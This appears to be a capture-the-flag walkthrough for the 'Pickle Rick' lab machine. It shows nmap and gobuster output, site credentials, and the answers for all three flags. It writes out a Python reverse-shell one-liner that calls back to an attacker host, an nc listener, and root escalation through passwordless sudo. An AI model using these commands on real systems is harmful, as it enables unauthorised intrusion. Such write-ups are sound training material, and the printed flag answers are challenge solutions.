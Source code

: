 # Pickle Rick

* IP=10.10.61.126

## Nmap scan report:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0a:0c:98:e3:b0:cc:bb:31:bb:9b:d1:72:4d:d5:19:9b (RSA)
|   256 f0:0c:16:42:28:8c:e5:20:c0:a1:74:60:23:37:8a:27 (ECDSA)
|_  256 8f:fe:50:7c:08:6c:24:d8:25:af:4d:f5:3b:e0:53:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## GoBuster report:
```
=====================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)

```
### Login Creds at /login.php:
```
Username: R1ckRul3s
robots.txt: Wubbalubbadubdub (password)
```
## Questions/Tasks:

1. What is the first ingredient Rick needs?
```bash
while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt
```
OR
```bash
grep . Sup3rS3cretPickl3Ingred.txt
```
**Ans- mr. meeseek hair**

2. Whats the second ingredient Rick needs?

* Python3 reverse shell on the command panel:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.50.128",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Listen on port 7777:
```bash
nc -lnvp 7777
```
* Elevate the shell:
```
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* Navigate to /home/rick
* home directory contents:
```bash
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```
```
cat 'second ingredients'
```
**Ans- 1 jerry tear**

3. Whats the final ingredient Rick needs?

* Check sudo permissions(commands that can be run with sudo)
```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-61-126.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-61-126.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
* Since sudo is set to no password, hence we can escalate privileges just by:
```bash
sudo bash
```
* Navigate to /root and find the 3rd.txt

**Ans- fleeb juice**
